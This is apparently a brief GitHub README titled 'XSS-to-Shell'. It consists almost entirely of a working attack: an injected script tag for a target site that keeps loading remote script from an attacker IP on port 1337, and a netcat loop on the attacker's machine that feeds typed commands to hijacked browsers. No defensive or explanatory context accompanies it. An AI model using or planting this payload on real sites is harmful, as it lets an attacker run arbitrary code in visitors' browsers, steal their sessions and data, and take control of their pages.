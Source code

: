# XSS-to-Shell

Website to Attack:

<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>


Attackers Machine:

while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done
